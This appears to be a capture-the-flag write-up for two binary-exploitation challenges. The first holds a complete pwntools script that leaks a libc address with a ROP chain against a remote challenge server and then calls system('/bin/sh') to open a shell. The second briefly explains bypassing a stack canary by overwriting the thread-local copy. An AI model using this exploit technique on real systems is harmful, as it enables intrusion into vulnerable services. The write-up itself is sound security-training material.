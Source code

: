 

# enter_the_pwn_land

Using ret2rop, it is important to note that the value of the loop variable `i` will be modified, so manual adjustment is needed.

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process('./a.out')
sh = remote('chuj.top', 31525)
elf = ELF('./a.out')
libc = ELF('./libc-2.31.so')

pop_rdi_ret_addr = 0x0401313
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
test_thread_addr = elf.sym['test_thread']
ret_addr = 0x040101a

# gdb.attach(sh, 'b puts')
sh.send(b'8'*(0x30-0x04)+p32(0x30-0x04))
payload = b'A'*8
payload += p64(pop_rdi_ret_addr) + p64(puts_got) + p64(puts_plt) + p64(test_thread_addr)
sh.sendline(payload)
sh.recvline()
puts_addr = u64(sh.recvuntil('\n', drop=True).ljust(8, b'\x00'))
print(hex(puts_addr))

libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
sh.send(b'8'*(0x30-0x04)+p32(0x30-0x04))
payload = b'A'*8
payload += p64(ret_addr) + p64(pop_rdi_ret_addr) + p64(bin_sh_addr) + p64(system_addr) + p64(0)
sh.sendline(payload)
sh.interactive()

```



# enter_the_evil_pwn_land

The main challenge in this question is bypassing the Canary protection mechanism.

The creation of a thread will create a TLS (Thread Local Storage) to store values like canary, which will be used to check if the canary has been modified. This TLS is stored at a high address of the stack, which means we have an opportunity to modify the canary value in the TLS.

